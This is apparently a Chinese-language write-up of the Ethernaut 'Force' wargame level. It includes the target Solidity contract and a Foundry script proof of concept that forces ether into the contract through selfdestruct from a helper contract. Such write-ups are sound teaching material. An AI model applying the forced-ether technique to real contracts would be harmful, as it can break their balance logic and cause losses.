

## Force

### 目标：

使合约余额大于零。

### 思路：

因为原合约没有receive和fallback函数，所以直接利用自毁函数，在remix中连接metamask钱包，向题目地址中转钱

### 源码：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

### poc:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/force.sol";
import "forge-std/Script.sol";

contract Middle_contract{
    address payable _force = payable(0x771eAe69AD4B19BFD76D3d48420ff1DEB76Dc793);
    constructor() payable{
        selfdestruct(_force);
 }
}

contract Attack is Script{
    function run() external{
        vm.startBroadcast();

        Middle_contract middle_contract = new Middle_contract{value: 0.0001 ether}();

        vm.stopBroadcast();
    }
}
```


